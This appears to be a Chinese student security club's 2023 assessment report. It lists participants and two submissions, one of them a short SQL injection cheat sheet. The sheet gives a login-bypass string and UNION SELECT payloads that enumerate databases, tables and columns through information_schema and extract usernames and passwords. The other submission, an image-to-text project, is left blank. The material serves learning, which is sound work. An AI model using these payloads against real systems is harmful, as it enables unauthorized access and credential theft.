


# 信安部2023考核

#### 参加人员：

- 黄美如
- 周齐家
- 郑明宇
- 李梦青

#### 作品提交：2个

##### sql注入（郑）：

~~~ mysql
//支持post注入的万能用户名和密码
1' or
or '1'='1

table_schema
information_schema

//确认显错位
and 1=2 select 1,2,3
//查询数据库
union select 1,2,database()
//查数据库中所有表名            
union select 1,2,table_name from information_schema.tables where table_schema='db02' limit 0,1
//查数据库中所有字段名
union select 1,2,column_name from information_schema.columns where table_schema='db02' and table_name='users' limit 0,1
//查一张表的信息
union select 1,username,password from users limit 0,1

~~~

##### 图片转文字（周）：

图片文本：

链接：

效果图：

##### 现场图片：

